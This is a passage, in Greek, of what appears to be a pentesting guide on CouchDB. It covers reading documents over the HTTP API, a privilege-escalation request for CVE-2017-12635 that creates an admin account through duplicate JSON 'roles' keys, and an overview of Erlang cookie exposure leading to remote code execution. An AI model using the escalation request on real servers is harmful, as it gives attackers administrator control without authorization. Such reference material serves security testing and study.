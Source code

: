 ```bash
{"id":"f53679a526a868d44172c83a61003a2a","key":"f53679a526a868d44172c83a61003a2a","value":{"rev":"1-4446bfc0826ed3d81c9115e450844fb4"}},
{"id":"f53679a526a868d44172c83a6100451b","key":"f53679a526a868d44172c83a6100451b","value":{"rev":"1-3f6141f3aba11da1d65ff0c13fe6fd39"}}
]}
```
### **Διαβάστε Έγγραφο**

Διαβάστε το περιεχόμενο ενός εγγράφου μέσα σε μια βάση δεδομένων:
```bash
curl -X GET http://IP:5984/{dbname}/{id}
curl http://localhost:5984/simpsons/f0042ac3dc4951b51f056467a1000dd9
#Example response:
{"_id":"f0042ac3dc4951b51f056467a1000dd9","_rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329","character":"Homer","quote":"Doh!"}
```
## CouchDB Privilege Escalation [CVE-2017-12635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2017-12635)

Χάρη στις διαφορές μεταξύ των αναλυτών JSON της Erlang και της JavaScript, θα μπορούσατε να **δημιουργήσετε έναν διαχειριστή χρήστη** με διαπιστευτήρια `hacktricks:hacktricks` με το ακόλουθο αίτημα:
```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```
[**Περισσότερες πληροφορίες σχετικά με αυτήν την ευπάθεια εδώ**](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html).

## CouchDB RCE

### **Επισκόπηση Ασφαλείας Cookie Erlang**

Παράδειγμα [από εδώ](https://0xdf.gitlab.io/2018/09/15/htb-canape.html).

Στην τεκμηρίωση του CouchDB, συγκεκριμένα στην ενότητα που αφορά τη ρύθμιση του cluster ([σύνδεσμος](http://docs.couchdb.org/en/stable/cluster/setup.html#cluster-setup)), συζητείται η χρήση θυρών από το CouchDB σε λειτουργία cluster. Αναφέρεται ότι, όπως στη λειτουργία αυτόνομης λειτουργίας, χρησιμοποιείται η θύρα `5984`. Επιπλέον, η θύρα `5986` είναι για APIs τοπικού κόμβου, και σημαντικά, η Erlang απαιτεί την TCP θύρα `4369` για τον Erlang Port Mapper Daemon (EPMD), διευκολύνοντας την επικοινωνία κόμβων εντός ενός cluster Erlang. Αυτή η ρύθμιση σχηματίζει ένα δίκτυο όπου κάθε κόμβος είναι διασυνδεδεμένος με κάθε άλλο κόμβο.

Μια κρίσιμη συμβουλή ασφαλείας επισημαίνεται σχετικά με την θύρα `4369`. Εάν αυτή η θύρα γίνει προσβάσιμη μέσω του Διαδικτύου ή οποιουδήποτε μη αξιόπιστου δικτύου, η ασφάλεια του συστήματος εξαρτάται σε μεγάλο βαθμό από έναν μοναδικό αναγνωριστικό που ονομάζεται "cookie." Αυτό το cookie λειτουργεί ως προστατευτικό μέτρο. Για παράδειγμα, σε μια δεδομένη λίστα διαδικασιών, μπορεί να παρατηρηθεί το cookie με το όνομα "monster", υποδεικνύοντας τον λειτουργικό του ρόλο στο πλαίσιο ασφαλείας του συστήματος.
```
www-data@canape:/$ ps aux | grep couchdb
root        744  0.0  0.0   4240   640 ?        Ss   Sep13   0:00 runsv couchdb
root        811  0.0  0.0   4384   800 ?        S    Sep13   0:00 svlogd -tt /var/log/couchdb
homer       815  0.4  3.4 649348 34524 ?        Sl   Sep13   5:33 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/b
```
Για όσους ενδιαφέρονται να κατανοήσουν πώς μπορεί να εκμεταλλευτεί αυτό το "cookie" για Remote Code Execution (RCE) στο πλαίσιο των συστημάτων Erlang, διατίθεται μια αφιερωμένη ενότητα για περαιτέρω ανάγνωση. Περιγράφει τις μεθόδους για την εκμετάλλευση των Erlang cookies με μη εξουσιοδοτημένους τρόπους για την επίτευξη ελέγχου πάνω στα συστήματα. Μπορείτε **[να εξερευνήσετε τον λεπτομερή οδηγό για την κακή χρήση των Erlang cookies για RCE εδώ](4369-pentesting-erlang-port-mapper-daemon-epmd.md#erlang-cookie-rce)**.
